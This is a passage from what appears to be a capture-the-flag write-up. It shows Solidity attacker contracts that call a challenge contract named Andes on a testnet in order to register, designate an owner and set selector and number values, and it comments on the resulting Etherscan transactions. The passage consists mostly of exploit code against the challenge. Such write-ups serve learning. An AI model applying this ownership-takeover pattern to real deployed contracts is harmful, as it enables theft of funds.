 ```Solidity
    function step3() public {
        andes = Andes(0xdCAeeeB6b02A2E5FbAe956200f1b88784bE25500);
        (bool result, ) = address(andes).call(abi.encodeWithSignature("setNextNumber(uint8)",0));
    }
}
```
![Contract_A_on_Etherscan.png](./Contract_A_on_Etherscan.png)
*Contract A on the Etherscan network*
The function calls from 2 days 6 hours ago were the original successful calls made during the CTF. The first one was deployment of the contract. It is interesting to note that despite the error (`Although one or more Error Occurred [execution reverted] Contract Execution Completed`) when calling `step3()`(in block 7900103), the rest of the function calls on contract B were successful. 

Contract B (can be found on Etherscan network [here](https://goerli.etherscan.io/address/0xe56bd57dae4a1a1cb40a9c96503f7b2b0c68691c)):
```Solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.7.6;
import "./Andes.sol";
  
contract B {
    Andes andes;
    
    constructor() {

        andes = Andes(0xdCAeeeB6b02A2E5FbAe956200f1b88784bE25500);
        (bool result, ) = address(andes).call(abi.encodeWithSignature("register()",""));
        require(result, "Call has failed");

        (bool result2, ) = address(andes).call(abi.encodeWithSignature("designateOwner()",""));
        require(result2, "Call has failed"); // sets contract b as designator

    }

    function step2() public {
        andes = Andes(0xdCAeeeB6b02A2E5FbAe956200f1b88784bE25500);
        (bool result, ) = address(andes).call(abi.encodeWithSignature("setNextSelector(address)","address of A"));
        require(result, "Call has failed");
    }
```